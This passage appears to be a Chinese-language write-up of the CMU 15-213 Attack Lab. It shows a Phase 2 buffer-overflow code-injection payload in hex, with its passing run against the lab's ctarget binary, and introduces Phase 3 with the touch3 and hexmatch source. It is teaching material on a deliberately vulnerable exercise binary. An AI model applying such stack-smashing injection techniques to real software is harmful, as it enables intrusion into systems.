 **b.实验结果：**

```bash
$ ./hex2raw <exploit.txt >exploit-raw.txt
$ ./ctarget -q <exploit-raw.txt 

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

### Phase 3:

#### 实验目标：

让CTARGET执行touch3函数,而不是返回到test函数,touch3有如下函数原型：

```cpp
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

touch3会调用hexmatch函数,hexmatch函数有如下原型：
```cpp
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

要让hexmatch返回true,这里的cookie为`59b997fa`。在调用touch3函数的时候需要传入cookie的字符串表示,以null结束。

但是有个问题,栈上空间会被hexmatch函数调用时覆盖。比如如果像下面这样，会发现调用hexmatch函数之后字符串被覆盖了。
